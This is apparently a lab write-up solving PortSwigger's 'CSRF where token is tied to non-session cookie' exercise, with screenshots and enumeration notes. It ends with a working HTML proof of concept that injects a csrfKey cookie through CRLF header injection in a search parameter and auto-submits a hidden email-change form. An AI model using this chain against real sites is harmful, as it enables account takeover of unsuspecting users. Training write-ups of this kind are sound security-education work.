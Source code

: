 # CSRF where token is tied to non-session cookie

Lab URL :- `https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie`

![image](https://user-images.githubusercontent.com/60841283/182528291-b148eb8f-5a12-41d8-9cac-ae7e61c562a0.png)

Logging as wiener user and updating email :- 

![image](https://user-images.githubusercontent.com/60841283/182528377-15c05e6c-5043-41e3-b380-2ace81d063b7.png)

Enumeration
- Chainging csrf token leads to "Invalid token"
- Interchanging csrf token from user carlos leads to "Invalid token"
- Interchanging both the csrfKey and csrf token is valid - 200 OK

Logging as carlos user and using wiener user csrfkey and csrf token (open new logging in private window):-

![image](https://user-images.githubusercontent.com/60841283/182528569-2ec43d5f-704a-4841-bcb6-a21ca8712437.png)

![image](https://user-images.githubusercontent.com/60841283/182528705-bf1a68cc-6e78-44b0-9e5f-cfab72ba6661.png)

Update is succes 

![image](https://user-images.githubusercontent.com/60841283/182528764-c30a4478-157a-47e6-97a7-56529f8d09c9.png)

That means the csrf token and csrfKey are used in combination and not tied session cookies so a valid pair will work on any POST request.

We need two things in order to launch CSRF attack 
1) Somehow change the csrfKey value (controllable via Header Injection) as it is tied to csrf token 
2) Second is payload to send the CSRF token. (controllable)

Changing the csrfKey value :- 

![image](https://user-images.githubusercontent.com/60841283/182534422-32e85b0a-cac9-4625-874f-caed2f7d34f5.png)

Using search bar 

![image](https://user-images.githubusercontent.com/60841283/182534531-1f8ac1bd-20be-4312-ad4d-de4aab5fcb00.png)

New cookie, looking into burp :- 

![image](https://user-images.githubusercontent.com/60841283/182534979-7f81df3a-6514-42e5-bb1c-cd7a22616cef.png)

![image](https://user-images.githubusercontent.com/60841283/182535081-daba8995-3717-4d30-aa6b-8bfbf534f230.png)

Now we can control both the csrfKey and csrf token 

Updating Carlos and using his key and token 

![image](https://user-images.githubusercontent.com/60841283/182535577-d4692371-cf80-4354-9f7b-ed94cdc83bb8.png)

Crafting CSRF POC

```html
<html>
<body>
	<h1>CSRF POC</h1>
	<iframe style="display:none" name="iframe_csrf"></iframe>
	<form action="https://0a360054036f6819c06a48a800a100d2.web-security-academy.net/my-account/change-email" method="POST" id="csrf-id" target="iframe_csrf">
		<input type="hidden" name="email" value="changed@normal-user.net">
		<input type="hidden" name="csrf" value="RQyvAHMK2VSz9ADNms4iqegt227wGiG8">
	</form>
	<img style="display: none" src="https://0a360054036f6819c06a48a800a100d2.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=Ljnr90mRjsAQDQfhordCKwRr1dai0hew" onerror="document.forms[0].submit()">
</body>
</html>
```

Store and deliver to victim :- 

![image](https://user-images.githubusercontent.com/60841283/182538236-6fe0a1c5-b31b-470f-833c-97a114c7a348.png)

